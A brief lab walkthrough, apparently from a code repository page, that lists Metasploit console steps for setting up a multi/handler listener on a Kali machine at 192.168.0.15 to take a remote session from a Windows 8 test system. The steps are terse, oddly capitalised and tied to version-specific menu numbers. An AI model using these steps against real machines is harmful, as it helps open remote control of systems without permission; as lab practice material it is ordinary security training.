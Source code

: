 ## STEP

Check your ip address for both your kali and your windows8 system ensure to ping to both devices and get a response, go to your kali and start your POSTGRESQL START and also your MSFDB INIT service.
START YOUR MSFCONSOLE.
SEARCH MULTI/HANDLER.
USE 7.
SHOW PAYLOADS.
SET PAYLOAD 1315.
SHOW OPTIONS.
SET LHOST TO YOUR IP ADDRESS 192.168.0.15.
SHOW OPTION'S
EXPLOIT -j
RUN
TYPE HELP FOR OTHER OPTIONS ON YOUR WINDOWS SYTEM.
